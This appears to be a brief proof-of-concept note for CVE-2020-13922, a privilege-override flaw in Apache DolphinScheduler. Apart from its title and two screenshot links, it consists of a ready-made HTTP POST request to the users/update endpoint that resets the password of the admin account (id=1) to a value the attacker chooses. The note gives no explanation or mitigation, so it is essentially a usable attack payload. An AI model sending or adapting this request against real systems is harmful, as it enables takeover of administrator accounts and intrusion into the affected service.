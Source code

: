 # Apache DolphinScheduler权限覆盖漏洞(CVE-2020-13922)

> 2020.9

## #Poc

![img](https://tva1.sinaimg.cn/large/007S8ZIlgy1gjxyeq5h84j30u00ds74z.jpg)

```http
POST /dolphinscheduler/users/update

id=1&userName=admin&userPassword=Password1!&tenantId=1&email=sdluser%40sdluser.sdluser&phone=
```

![img](https://tva1.sinaimg.cn/large/007S8ZIlgy1gjxyexfpi7j30u00d979u.jpg)
